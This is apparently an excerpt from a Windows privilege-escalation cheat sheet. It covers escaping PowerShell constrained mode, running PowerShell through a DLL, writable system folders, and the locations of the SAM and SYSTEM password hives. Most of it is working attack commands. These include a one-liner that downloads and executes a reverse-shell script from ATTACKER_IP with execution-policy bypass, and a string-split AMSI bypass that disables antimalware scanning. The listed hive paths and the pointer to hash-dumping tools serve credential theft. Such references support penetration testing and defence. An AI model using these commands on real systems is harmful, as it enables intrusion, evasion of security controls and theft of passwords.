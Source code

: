 Powershell Constrained Mode

```powershell
# Check if we are in a constrained mode
$ExecutionContext.SessionState.LanguageMode

PS > &{ whoami }
powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"

# PowerShDLL - Powershell with no Powershell.exe via DLL’s
# https://github.com/p3nt4/PowerShdll
ftp> rundll32.exe C:\temp\PowerShdll.dll,main
```



Example of AMSI Bypass.

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Default Writeable Folders

```powershell
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\Windows\tracing
C:\Windows\Temp
C:\Users\Public
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.
